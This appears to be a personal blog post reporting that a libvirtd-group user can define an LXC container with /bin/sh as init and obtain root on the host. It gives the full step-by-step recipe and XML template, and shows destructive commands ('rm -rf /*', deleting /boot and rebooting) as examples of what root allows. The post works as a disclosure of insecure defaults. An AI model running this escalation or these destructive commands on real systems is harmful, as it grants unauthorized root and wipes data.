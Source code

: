 ```yaml
---
layout: post
title: Docker Container Madness
---
```


(...or How I Got Root in Less than 5 Minutes)

I'm unsure if this is actually a vulnerability or just a usability problem with the normal behaviour of [LXC](https://linuxcontainers.org/)/[Docker](https://www.docker.com/)/[Libvirt](https://libvirt.org/). Nevertheless, this seemingly harmless template file seems to cause **A LOT** of worry, as it allowed me to elevate privileges on the host system from an ordainary user account. I imagine new users of Docker, like myself, should be more concerned about how safe these defaults really are.

<p align="center">
<img src="https://raw.githubusercontent.com/adrianlshaw/adrianlshaw.github.com/master/images/docker.png" alt="Docker logo" title="Docker" style="width: 50%; height: 50%"/>
</p>

If you want to try this out, then here is the preamble if you are running a Debian-based Linux. In this case I am running Ubuntu 14.04.1. 
{% highlight bash %}
admin@host:~$ sudo apt-get install docker virt-manager
{% endhighlight %}

Create an unprivileged user, but with access to the libvirtd group:
{% highlight bash %}
admin@host:~$ sudo useradd -G libvirtd user 
admin@host:~$ sudo passwd user 
{% endhighlight %}
Now you should login as the ordinary user. Save the following XML template, which contains a name, a memory limit, console access and a shell. E.g. at /tmp/container.xml

{% highlight xml %}
<domain type='lxc'>
	<name>test</name>
	<memory>102400</memory>
	<os>
		<type>exe</type>
		<init>/bin/sh</init>
	</os>
	<devices>
		<console type='pty'/>
	</devices>
</domain>
{% endhighlight %}

Import the template into Libvirt:
{% highlight bash %}
user@host:~$ virsh define container.xml
{% endhighlight %}

Start the container. Make sure you have the Libvirt environment variable exported to work with LXC (e.g. **LIBVIRT_DEFAULT_URI=lxc:///**, such that Libvirt doesn't go looking for Xen or KVM.

{% highlight bash %}
user@host:~$ export LIBVIRT_DEFAULT_URI=lxc:///
user@host:~$ virsh start test
user@host:~$ virsh console test
{% endhighlight %}

And now try to run the **bash** shell:

{% highlight bash %}
  Connected to domain test
  Escape character is ^]
  
# bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
root@host:/# 
{% endhighlight %}

Huh? You now have root on the host. 
What kind of messed up world is this? I can read/write to any file on the host:

Provide devastation:
{% highlight bash %}
root@host:/# rm -rf /*
{% endhighlight %}

Or alternatively just cause a bit of downtime:

{% highlight bash %}
root@host:/# rm /boot/*; reboot;
{% endhighlight %}

You can access a lot of the system programs in /bin, but it's trivial to add yourself to the `sudoers` group instead. 
Is it possible to be careful with Docker? It doesn't seem safe for mortals and is hardly encouraging. Like what Dan Walsh said in a recent article, it seems that "containers do not contain". At least not without a lot of experience and carefully crafted configs. 

Thoughts are welcomed. Especially from Docker magicians - what are the semantics behind this configuration file? Privileges by default? But my user had no superuser access. 

{% highlight bash %}
$ docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
{% endhighlight %}
